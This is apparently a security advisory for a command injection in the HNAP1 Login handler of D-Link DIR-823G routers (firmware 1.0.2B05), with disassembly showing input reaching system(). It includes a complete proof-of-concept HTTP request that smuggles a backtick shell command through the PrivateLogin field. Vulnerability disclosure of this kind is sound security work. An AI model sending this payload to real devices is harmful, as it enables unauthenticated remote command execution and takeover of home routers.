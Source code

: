 # DIR-823G Command inject in HNAP #

DIR-823G
An issue was discovered on D-Link DIR-823G devices with firmware V1.0.2B05. There is a command injection in HNAP1  via shell metacharacters in the PrivateLogin field to Login.
## Vulnerable Firmware Versions ##
**DIR-823G REVA1 1.02B05(Lastest) **

## Analysis ##
**Command injection in HNAP1 Login**

Bypass the check of "PrivateLogin" by modifying in HTTP Message.

**payload:**

    POST /HNAP1/ HTTP/1.1
    Host: 192.168.0.1
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5 
    Accept-Encoding: gzip, deflate
    Content-Type: text/xml; charset=utf-8
    SOAPAction: "http://purenetworks.com/HNAP1/Login"
    Content-Length: 597
    X-Requested-With: XMLHttpRequest
    Content-Length: 453
    Origin: http://192.168.0.1
    Connection: close
    Referer: http://192.168.0.1/Login.html

    <?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>request</Action><Username>Admin</Username><LoginPassword></LoginPassword><Captcha></Captcha><PrivateLogin>'`ls>/web_mtn/test.txt`'</PrivateLogin></Login></soap:Body></soap:Envelope>

![test.png](https://i.loli.net/2020/09/06/Ka13cRxJPU2zoqr.png)

**Vulnerability Description**

This occurs in /bin/goahead when a HNAP API function trigger a call to the system function with untrusted input form the request body.A attacker can execute any command remotely when they control this input.


    la  $v0, aEchoSVarHnaplo  # "echo '%s' >/var/hnaplog"
    addiu   $v1, $fp, 0x1448+var_1390
    move $a0, $v1 A
    li  $a1, 0x1387
    move $a2, $v0
    lw  $a3, 0x1448+arg_18($fp)
    jal snprintf
    nop
    addiu   $v0, $fp, 0x1448+var_1390
    move $a0, $v0 
    jal system


